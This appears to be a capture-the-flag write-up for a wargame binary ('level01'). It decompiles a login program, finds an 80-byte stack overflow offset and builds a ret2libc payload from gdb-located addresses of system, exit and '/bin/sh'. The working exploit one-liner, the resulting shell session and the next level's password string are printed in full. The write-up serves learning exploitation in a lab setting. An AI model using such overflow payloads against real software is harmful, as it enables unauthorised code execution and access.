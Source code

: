 ## Project README: Finding flag01
When we decompile it we can see that he is using 2 function :
one to check username and one to check the password.

### Analysis
We see that the username is : dat_wil
and the password his :admin. But this doesn't change anything.
What we can do is make the password segfault.
with this test : aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09
we found this offset = cA00
so ther is 80 caractere before the segfault
so we can make him execute something :

### Progress

let's try a rettolibc :
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
we just have to make it jump to the system func with exit and bin sh
(python -c 'print("dat_wil")';python -c 'print("\x90" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7")';cat) | ./level01
******\*\*\* ADMIN LOGIN PROMPT \*\*\*\*\*\*\*\*\*
Enter Username: verifying username....

Enter Password:
nope, incorrect password...



whoami
level02
cd ..
cd level02
cat .pas
cat: .pas: No such file or directory
s
/bin/sh: 7: s: not found
cat .pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```